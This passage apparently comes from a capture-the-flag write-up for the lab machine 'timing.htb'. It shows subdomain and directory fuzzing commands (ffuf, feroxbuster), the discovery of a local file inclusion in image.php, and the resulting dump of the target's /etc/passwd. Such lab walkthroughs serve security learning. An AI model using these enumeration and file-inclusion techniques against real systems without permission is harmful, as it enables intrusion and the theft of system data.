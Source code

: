 ```bash
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Web Enumeration

### Sub Domain

{{< figure src="images/Untitled.png">}}

`ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://timing.htb/" -H "Host:FUZZ.timing.htb" -fc 302`

Found NONE

### Directory

{{< figure src="images/Untitled%201.png">}}

Interesting `image.php` with 200 response code and 0 content length 🧐.  Can I LFI 😈? 

`feroxbuster -u "http://timing.htb/" -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -s 200 -x php`

## FootHold

### Found LFI

{{< figure src="images/Untitled%202.png">}}

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```
